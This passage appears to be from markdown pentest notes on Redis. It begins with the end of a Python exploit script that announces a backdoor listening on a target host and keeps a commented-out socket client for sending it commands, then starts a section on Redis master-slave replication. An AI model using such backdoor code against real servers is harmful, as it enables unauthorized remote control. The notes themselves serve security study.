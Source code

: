 ```python
# Python could be used to send commands and receive restults,
# but recv'ing all the data is a hassle, so its easier to just
# use netcat.
time.sleep(5)
print "Backdoor should be listening now, you can connect" + \
	" to " + target_ip + " " + target_port

'''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, int(target_port)))
while True:
	input = raw_input('> ')
	if input == 'quit':
		break
	s.send(input + "\n")
	print s.recv(8192)
s.close()
'''
```

### Ref

https://cloud.tencent.com/developer/news/256777

## Redis Master-Slave

### Why master-slave

> Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

### Techniques

data retrieval:

![image-20220125135213069](Redis.assets/image-20220125135213069.png)
